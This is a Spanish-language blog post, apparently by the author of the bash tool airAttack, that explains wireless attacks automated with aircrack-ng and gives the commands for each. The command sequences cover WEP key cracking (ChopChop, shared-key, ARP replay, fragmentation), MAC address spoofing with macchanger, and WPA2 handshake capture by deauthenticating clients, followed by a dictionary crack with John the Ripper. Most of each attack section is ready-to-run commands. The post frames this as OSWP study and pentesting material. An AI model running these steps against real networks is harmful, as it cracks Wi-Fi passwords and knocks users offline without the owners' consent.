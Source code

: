 ```yaml
---
layout: single
title: airAttack
excerpt: "En este artículo, explico la utilidad de la herramienta airAttack. También dejo reflejado cada ataque, la finalidad de cada ataque y como ejecutarlo. Todos los ataques de esta herramienta se ejecutan gracias a la suite aircrack-ng. La herramienta fue publicada en github el día 27/06/2021, pocos días después de aprobar el OSWPcomo primera release."
date: 2021-08-31
classes: wide
header:
  teaser: /assets/images/airAttack/airAttack.jpg
  teaser_home_page: true
categories:
  - script
tags:
  - shell
  - wireless
  - aircrack-ng
  - wireless_pentesting
---
```


![](/assets/images/airAttack/AIR-ATTACK-Header.jpg)

**airAttack** es una herramienta ofensiva para automatizar los ataques a redes inalámbricas escrita en bash. Esta herramienta será mejorada por mi próximamente para para optimizar determinadas porciones de código. Los ataques de denegación de servicio así como nuevas funciones serán añadidas. Este programa lo escribí cuando estaba estudiando para el OSWP (Offensive Security Wireless Professional).

En este artículo, explicaré cada ataque que puede utilizarse en airAttack, la finalidad y como ejecutarlo manualmente.

La herramienta se puede descargar en:

* [https://github.com/e1abrador/airAttack](https://github.com/e1abrador/airAttack)

<h2> Ataques WEP </h2>

Antes de empezar con los ataques WEP, es importante recalcar que todos estos ataques están enfocados obtener el máximo número de IVS para poder crackear la contraseña, a diferéncia de los ataques WPA2, cuya prioridad es obtener el hash de la red para poder posteriormente crackearlo.

**IVS:** Los IVS, también conocidos como "Archivos de Vector de inicialización", se clasifican como archivos de datos que contienen vectores de  inicialización que son necesarios para la generación de los datos cifrados en la red.

<h3><u>Chop</u> <u>Chop</u> <u>Attack</u></h3>
El ataque de **Chop Chop** consiste en coger un byte de datos de un paquete encriptado WEP, substituyendo los valores de los bytes del paquete y recalculando la suma de verificación del encriptado. Los paquetes ya modificados se envían al router, el router simplemente los descarta hasta que el atacante finalmente logra sustituir una suma de verificación válida.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -4 -a mac_de_ap -h mac_tarjeta wlan0
packetforge-ng -0 -a mac_de_ap -h mac_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w ataque_chopchop
aireplay-ng -2 -r ataque_chopchop wlan0
aircrack-ng captura-01.cap
```

**Nota:** Es importante dejar un pequeño espacio de tiempo entre comando y comando y esperar a que cada comando se inyecte correctamente en el router.

<h3><u>SKA</u></h3>
El ataque **SKA**, también conocido como "Broken Shared Key Authentication" consiste en copiar la dirección MAC de un cliente ya conectado a la red en nuestra própia tarjeta de red y generar un ataque de falsa autenticación con nuestra nueva MAC (MAC copiada del cliente previamente autenticado), el objetivo de autenticar nuestra MAC es generar paquetes ARP en la red.

```bash
airodump-ng --bssid mac_de_ap -c canal_de_ap wlan0 -> Por ahora no es necesario empezar a capturar paquetes.
```
Cuando tenemos el punto de acceso localizado y la MAC localizada, dejaremos de ver el tráfico de la red con airodump y procederemos a cambiar la MAC de nuestra tarjeta de red, con el siguiente one-liner se puede cambiar.

```bash
ifconfig wlan0 down &> /dev/null && macchanger --mac mac_de_cliente wlan0 &> /dev/null && ifconfig wlan0 up &> /dev/null
```

**Nota**: Puede que sea necesario ejecutar por segunda vez el one-liner para que se cambie correctamente.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -b mac_de_ap -h mac_tarjeta wlan0
aireplay-ng -0 1 -e essid_de_ap -a mac_de_ap -h mac_de_ap wlan0
aircrack-ng captura-01.cap
```

<h3><u>ARP</u> <u>Request</u> <u>Replay</u> <u>Attack</u></h3>

El ataque de **ARP Request Replay Attack** consiste en inyectar nuestra MAC en el router víctima, posteriormente se genera un ataque de denegación de servicio sobre uno de los clientes conectados (si este ataque se lanza contra todos, se obtendrán mas IVS, haciendo que la probabilidad de crackear la clave será más alta) y, cuando dichos clientes se vuelvan a conectar a la red, se genererarán de forma automática paquetes ARP, lo que generará IVS.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -3 -x 1000 -n 1000 -b mac_de_ap -h mac_de_tarjeta wlan0
aireplay-ng -0 5 -a mac_de_ap -h mac_de_cliente_conectado wlan0
aircrack-ng captura-01.cap
```

<h3><u>Fragmentation</u> <u>Attack</u></h3>

Este ataque necesita que 1 único paquete de datos sea capturado por airodump. Posteriormente, se genera un nuevo paquete modificado con la dirección MAC de nuestra tarjeta de red y se inyecta el paquete modificado por el atacante en el punto de acceso objetivo. De esta forma, se generarán paquetes ARP y, en consecuéncia, los IVS necesários para crackear la clave.

```bash
airodump-ng -w captura --bssid mac_de_ap -c canal_de_ap wlan0
aireplay-ng -1 6000 -o 1 -q 10 -a mac_de_ap -h mac_tarjeta wlan0 -> es muy recomendable dejar el cliente inyectado, ya que facilitará la obtención del paquete de datos.
packetforge-ng -0 -a mac_de_ap -h mac_de_tarjeta -l 192.168.1.2 -k 192.168.1.255 -y *.xor -w fragmentation_attack
aireplay-ng -2 -r fragmentation_attack wlan0
aircrack-ng captura-01.cap
```

<h2> Ataques WPA2 </h2>

El protocolo WPA2 hace años que empezó a monopolizarse en los routers instalados por las compañías telefónicas. Aun que si que es verdad que el protocolo WEP no se suele utilizar, aún hay routers que lo implementan, ya que hay dispositivos (si són de última generación suele no pasar) que únicamente aceptan el procolo WEP.

El objetivo en estas redes es obtener un hash para poder crackearlo mediante el uso de un diccionario de contraseñas.

<h3><u>Ataque</u> <u>de</u> <u>deautenticación</u></h3>

El **ataque de deautenticación** ataque es un ataque de denegación de servicio, el objetivo es provocar que la víctima se reconecte al punto de acceso, en el momento que un dispositivo se conecta al router, se genera un packete handshake, el cual contiene la contraseña hasheada de la red inalámbrica.

```bash
airodump-ng -c canal_de_ap --bssid mac_de_ap -w captura wlan0
aireplay-ng -0 15 -a mac_de_ap -h mac_de_cliente wlan0 -> se utiliza para deautenticar a un solo cliente de la red
aireplay-ng -0 15 -a mac_de_ap -c FF:FF:FF:FF:FF:FF  wlan0 -> se utiliza para deautenticar a todos los clientes de la red
aircrack-ng -J miCaptura captura.cap
hccap2john miCaptura.hccap > hash
john --wordlist=rockyou.txt hash
```
